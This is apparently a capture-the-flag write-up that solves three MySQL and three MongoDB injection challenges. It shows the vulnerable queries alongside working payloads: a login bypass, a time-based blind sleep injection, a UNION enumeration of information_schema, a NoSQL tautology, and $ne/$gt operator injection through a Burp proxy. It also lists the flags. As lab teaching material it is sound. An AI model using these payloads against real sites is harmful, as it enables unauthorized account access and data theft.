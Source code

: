 # SQLi Challenges
As you all must've noticed, there were two separate databases being used and hence the challenges were hosted across two websites. One of the DBs used was MySQL and the other was MongoDB. 

## MySQL challenges

### Challenge 1 - Try to login
+ This was the SQL query:
``` $q = "SELECT * FROM users where (username='".$username."') AND (password = '".md5($pass)."')";```
+ Hence the solution will be of the form:
``` blah') OR 1=1 -- // ```
When this is entered in the "username" field, the rest of the query gets commented and you can login as the admin user. 

### Challenge 2 - Take things slow 
+ Here you were expected to conduct a time-based blind SQLi. Essentially, you had to delay the response of the website by 10 seconds. It was also mentioned that you need to conduct this attack on the "Profile Details page"
+ Note: Blind SQLi means the application is vulnerable to SQL injections, but its HTTP responses do not contain the results of the relevant SQL query or the details of any database errors.
+ The SQL query was this:
``` $q = "Select * from users where username = '".$user."'";```
+ The solution is as follows:
``` ?user=admin' and if(1=1, sleep(10), null) -- //```
![](images/1.png)

### Challenge 3 - Find Tom Riddle! 
+ Question: Get access to Tom Riddle's account: A wizard who's first name is tom, goes by the username voldemort.
+ Hints to be picked up - "first name" is tom, "username" is voldemort
+ "first name" and "username" are probably names of columns in the database
+ Confirm this by conducting an SQLi to find column names in the "Search Products" page as follows
``` ' union select null, table_name, column_name, table_schema, null from information_schema.columns where table_schema=database() -- // ```
![](images/2.png)
+ "first name" is actually "fname" and "username" is "username" itself
+ The twist here was, there are two users with the username "voldemort". But only of of them had fname "tom". So you have to write a query that takes care of both these conditions. Add this to the URL:
``` ?user=voldemort' and fname = 'tom'-- //```
![](images/3.png)


## NoSQL challenges

### Challenge 1 - - User Lookup  
+ Solution: ```"' || '2'=='2"``` (without double quotes)
+ Flag: ctf{c0ngr8$}

### Challenge 2 - User Login  
1. Direct payload wont work, need to install a proxy (I used burp suite)
2. Need to change browser proxy settings in browser (I used FoxyProxy extension for Firefox)- set proxy IP to 127.0.0.1, port to 8080
3. Login using any credentials
4. Intercept the request and change the payload to: ```{"username":"admin","password":{"$ne": 1}}```
+ Flag: ctf{l0L+sO+r@nd0m}
+ The query in the code was:
``` python
let uname = req.body.username;
	let pass = req.body.password;
	console.log("Login request " + req.body);
	let query = { 
		username: uname,
		password: pass 
	}
```
### Challenge 3 - User Login
Follow steps 1-3 from above  
+ Intercept the request and change the payload to: ```{"username":{"$gt": ""},"password":{"$ne": 1}}```
+ Flag: ctf{y0uve_ch@ng3d}
